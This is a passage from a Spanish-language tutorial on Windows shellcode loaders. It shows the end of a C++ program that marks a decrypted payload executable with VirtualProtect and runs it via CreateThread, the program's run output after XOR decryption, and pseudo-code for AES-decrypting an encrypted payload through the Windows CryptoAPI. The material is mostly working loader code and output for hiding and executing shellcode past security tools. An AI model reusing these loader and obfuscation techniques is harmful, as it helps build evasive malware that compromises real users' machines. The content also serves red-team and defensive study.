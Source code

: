 ```c++
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf(" [CreateThread] Exec stored payload \n");
	getchar();
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```

Salida de la ejecución:

```
Sotred payload in .data section payload addr         : 0x000000C46C6FF830

 [VirtualAlloc] of new moemory region exec_mem addr        : 0x000002A2576A0000

 Decripted payload XOR 1819277360

 Decripted pyaload XOR 0x000000C46C6FF830

 [RtlMoveMemory] copy data
 [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ

 [CreateThread] Exec stored payload
```

![xor_encryption](/assets/images/xor_encryption.png)

### Encriptación AES de shellcode

Para las operaciones criptográficas con la clave simétrica de AES, se utilizará la nueva API de Windows Cryptography API: Next Generation.
A continuación se define el pseudo-código asociado a la desencriptación de un payload mediant una clave dada:

```c++
// 1. open a handle hProv to a Cryptographic Service Provider - a module
// implementing specific crypto algorithms, like RSA, AES, etc.
CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)

// 2. prepare a new hashing object to generate a SHA-256 hash from the provided key
CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)

// 3. create SHA-256 hash from the key
CryptHashData(hHash, key, keylen, 0)

// 4. derive a symmetric AES-256 key from the hash
CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)

// 5. finally, decrypt the payload
CryptDecrypt(hKey, NULL, 0, 0, payload, &payload_len)
```
